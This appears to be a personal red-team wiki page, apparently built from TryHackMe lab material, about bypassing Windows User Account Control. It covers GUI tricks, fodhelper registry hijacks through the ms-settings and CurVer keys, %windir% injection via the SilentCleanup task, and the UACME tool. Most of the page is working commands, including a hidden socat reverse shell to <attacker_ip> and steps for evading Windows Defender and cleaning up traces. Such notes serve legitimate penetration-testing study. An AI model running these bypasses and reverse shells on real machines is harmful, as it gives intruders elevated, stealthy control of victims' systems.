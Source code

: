 # Bypassing Windows User Account Control

For the fundamentals of UAC see [[Windows-User-Account-Control]]

When creating a backdoor post exploit you may see this error:
```powershell
net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

`whoami /groups` will show that the session is running in medium Integrity Levels, UAC prevents even Administrators from performing administrative tasks with filtered token.

## GUI Based Bypasses

#### msconfig

From the `Search -> Run`  open `msconfig`, using the [[Process-Hacker]] if it runs with High IL: navigate to the `Tools` tab and select `Command Prompt` 

#### azman.msc 
From the `Search -> Run`  open, using the [[Process-Hacker]] if it runs with High IL: Click the tab `Help -> Help Topics -> Right-Click -> View-Source`, which will open notepad `File -> Open C:\Windows\System32\cmd.exe`, but then when you find it in the file listing `Right-Click -> Open`

## UAC AutoElevate Processes

Some executable can auto-elevate to high IL - most of Control Panel's functionality and some native executables. Requirements for auto-elevation:
1. The executable must be signed by Windows Publisher
2. The executable must be contained in trusted directory, like `%SystemRoot%/System32/` or ``%ProgramFiles%/`

Additional requirements depending on application:
	1. Executable files must declare the autoElevate element inside their manifests - use [[Sysinternals-Sigcheck]] to check manifest.
	2. mmc.exe will auto elevate depending on the .msc snap-in taht the user requests - most Windows .msc files will auto-elevate.
	3. Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. [[UAC-AutoElevate-List]]
	4. COM objects can request auto-elevation by configuring registry keys [Docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)

#### fodhelper
fodhelper is default windows executable in charge of managing Windows optional features, infamously used in [Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit). Fodhelper can auto elevate when using default settings and can be exploited without GUI access. 

Create a association for ProgID for a file in current users HKCU, allow us to override the default system-wide association and control the `command` used to open that file. To elaborate, the Programming ID(ProgID) key in the registry is associated with the application. Windows prioritises the HKCU over the HKLM key. The command used to specify the subkey located within the registry tree  `shell/open/command`. 

```batch
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>""
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f
```

Delete for stealth:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

Query to check:
```batch
reg query %REG_KEY% /v ""
```

## Windows Defender
Same as the above, but the final line is:
```batch
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Warning this may still fail. It succeeds base whether the payload or AV executes first. It is still detected by Windows Defender. The improved version is from :[v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

Instead of \\Shell\\Open\\command, we use `CurVer` entry under a progID registry key, which commonly used when you have multiple instances of an application with different version running on the same system, `CurVer` points to a default version.

Modified [v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) version from Tryhackme.
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

# create new progID with name .pwn  
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

# points to CrVer entry of ms-settings
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

It is more likely to evade Windows Defender as name of the progID that holds our payload is entirely arbitrary. Instead of Windows Defender matching a single indicator, the pointing is transitive and therefore evasive as it encapsulated in the act of point, data-wise. But AV detection methods are implemented strictly against the published exploit so: 
```batch
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

Clean up:
```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC Enivronment Variable Expansion

If UAC is configured to `Always Notify`, similar autoElevate exploiatable application won't work. Instead scheduled tasks that can be run by any user, but executed at highest privileges available to the caller - disabling Windows Defender prior to this is required.

Using `Task Scheduler` tasks can set `When running the task, use the following user account: Run only when user is logged on; Run whether user is is logged on or not - [] Do not store password. The task will only have access to local resources` plus it has another checkbox for `Run with highest privileges`, this will use the highest Integrity Level the user has - this is an so Administrator only exploit.

For example(with` Task Scheduler` open) with `DiskCleanup`:
`Double Click Task -> GOTO -> Actions tab`; if the run on-demand command depends on enviroment variables it is possible to inject commands and then have the task execute them by starting it manually.

`%windir%` can be overriden by creating an entry in the `HKCU\Environment`
set `%windir%` to `"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

**Be sure to note the executed command to avoid any artefact interfering with anything else.  Since many Windows components rely on the %windir% environment variable, a lot of things won't properly work until you remove the registry key used for this bypass.**

```batch
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

And for the cleanup
```batch
reg delete "HKCU\Environment" /v "windir" /f
```

## UACME

[UACME Github](https://github.com/hfiref0x/UACME) *"Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor."* Be warned the naming convention is not-descriptive. And therefore will probably require cataloguing them myself.
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account with UAC set on default settings required.

Run executable from command line: akagi32 [[UACME-Keys]] Param or akagi64 [[UACME-Keys]] Param. 

First parameter is number of method to use, second is optional command (executable file name including full path) to run. Second parameter can be empty - in this case program will execute elevated cmd.exe from system32 folder. See listing of keys locally: [[UACME-Keys]] or [externally](https://github.com/hfiref0x/UACME)

## Reference

[COM Elevation Moniker Documentation](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)
[Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)
[v3ded Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
[UACME Github](https://github.com/hfiref0x/UACME) 